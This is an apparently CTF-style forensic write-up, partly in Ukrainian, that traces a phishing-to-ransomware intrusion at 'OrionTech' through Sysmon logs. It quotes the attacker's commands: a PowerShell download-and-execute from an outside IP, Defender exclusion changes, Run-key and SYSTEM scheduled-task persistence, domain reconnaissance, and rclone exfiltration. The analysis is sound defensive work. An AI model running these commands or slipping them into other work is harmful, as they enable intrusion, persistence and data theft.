Scenario
A financial employee at OrionTech mistakenly downloaded a ZIP file from an email claiming to be from a trusted vendor. The attachment contained what appeared to be a document, but it initiated a chain of actions that compromised the system and led to a broader network intrusion.

Your objective is to analyze the artifacts left behind, track the attacker’s movements across the environment, and understand the techniques used at each stage of the kill chain.


I tryed to find where is employee downloaded a zip file, so i filtered logs for sysmon event id 15. Коли файл завантажується через браузер, ОС Windows записує інформацію про походження файлу в альтернативний потік даних (ADS) під назвою Zone.Identifier. О 2025-03-21 15:08:22.985 користувач knixon завантажив zip файл `Financial Records.zip` з `http://54.93.105.22/Financial%20Records.zip` в свою Download folder.


at 15:09:03 users extracted and executed `Financial Records.xlsm` (SHA256:030E7AD9B95892B91A070AC725A77281645F6E75CFC4C88F53DBF448FFFD1E15) .after excetu it created a lnk file `C:\Users\knixon\AppData\Roaming\Microsoft\Office\Recent\Financial Records.LNK`.

File дозволи виконувати макроси поставивши себе в Trusted Documents
```
HKU\S-1-5-21-3865674213-28386648-2675066931-1120\SOFTWARE\Microsoft\Office\16.0\Excel\Security\Trusted Documents\TrustRecords\%USERPROFILE%/Downloads/Financial%20Records.xlsm
```

at 15:09:32 file executed a powershell script


after decodeing
```
Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"; cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"`
```

at 15:15:29 vbs was execeuted pid 8732

```
"C:\Windows\System32\WScript.exe" "C:\Users\knixon\AppData\Local\Temp\F6w1S48.vbs" 
```

this script launched a milicious dll `WindowsUpdaterFX.dll` (MD5: 735AB5713DB79516CF350265FA7574E5)


і ця dll впродвож 15:15 виконала такі скрипти
```
Add-MpPreference -ExclusionPath "C:\ProgramData\Microsoft\ssh"
Add-MpPreference -ExclusionPath "%APPDATA%/Microsoft"
Add-MpPreference -ExclusionPath "%LOCALAPPDATA%/Temp"
$objShell = New-Object -ComObject WScript.Shell; $objShell.RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater", "wscript.exe %LOCALAPPDATA%/Temp/F6w1S48.vbs", "REG_SZ")
schtasks /Create /RU "NT AUTHORITY\SYSTEM" /SC ONLOGON /TN "WiindowsUpdate" /TR "C:\Windows\System32\regsvr32.exe /s %%localappdata%%\Temp\WindowsUpdaterFX.dll"
```

also вона створила новий файл Pancake.jpg.exe in temp folder 


and started цей binary file with powershell script
```
Start-process $env:LOCALAPPDATA\Temp\Pancake.jpg.exe
```
it connects to 54.93.105.22 from 10.10.11.29 


after connection the attacker started

```
C:\Windows\system32\cmd.exe /C whoami
C:\Windows\system32\cmd.exe /C ipconfig /all
C:\Windows\system32\cmd.exe /C systeminfo
C:\Windows\system32\cmd.exe /C net group "domain admins" /domain
C:\Windows\system32\cmd.exe /C net localgroup administrators
```

at 15:42 the attacker scanned the internal network to discover additional targets



agent DC01
the attacker downloaded a rclone and data exfiltration...



16:49 ransomware pid 5792 (MD5: 998022B70D83C6DE68E5BDF94E0F8D71)



NT AUTHORITY\SYSTEM
